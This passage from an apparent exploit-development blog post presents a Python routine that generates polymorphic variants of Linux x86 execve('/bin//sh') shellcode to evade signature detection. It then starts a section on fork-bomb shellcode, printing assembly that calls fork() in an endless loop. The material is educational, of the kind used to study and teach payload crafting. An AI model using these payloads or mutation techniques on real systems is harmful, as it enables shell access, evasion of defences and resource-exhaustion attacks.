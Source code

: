 The following python routine is the one used to create shellcode variations.

{%highlight python%}
def exec_sub_strategy():

    # EAX = 0xb

    init_eax = ["\\x29\\xc0\\xb0\\x??\\x2c\\x$$"];
    par = randint(1, 255)
    eax = "".join(init_eax)
    eax = eax.replace("??", str(format(par, 'x')))
    eax = eax.replace("$$", str(format(par-11, 'x')))

    init_ecx = ["\\x31\\xc9", "\\xc4\\xe2\\x70\\xf2\\xc9", "\\x6a\\x??\\x59\\x80\\xe9\\x??"]
    shuffle(init_ecx)
    par = randint(1, 127)
    ecx = "".join(init_ecx[0])
    ecx = ecx.replace("??", str(format(par, 'x')))

    init_edx = ["\\x31\\xd2", "\\xc4\\xe2\\x68\\xf2\\xd2", "\\x6a\\x??\\x5a\\x80\\xea\\x??"]
    shuffle(init_edx)
    par = randint(1, 127)
    edx = "".join(init_edx[0])
    edx = edx.replace("??", str(format(par, 'x')))

    init_blk = [eax, ecx, edx]
    shuffle(init_blk);
    return "".join(init_blk)+"\\xeb\\x03\\x5b\\xcd\\x80\\xe8\\xf8\\xff\\xff\\xff\\x2f\\x62\\x69\\x6e\\x2f\\x2f\\x73\\x68";

{%endhighlight%}

{%asciicast  198404 %}

## Fork bomb

### The original shellcode

The original shellcode it can be found here:
[http://shell-storm.org/shellcode/files/shellcode-214.php](http://shell-storm.org/shellcode/files/shellcode-214.php).

The code is very easy. The fork() system call has no parameter and its listed
with number 2 in the system call list.

![Fork system call number]({{site.url}}/assets/images/fork_number.png)

{%highlight asm%}
section .text
global _start

_start:
    push byte 2
    pop eax
    int 0x80
    jmp short _start
{%endhighlight%}
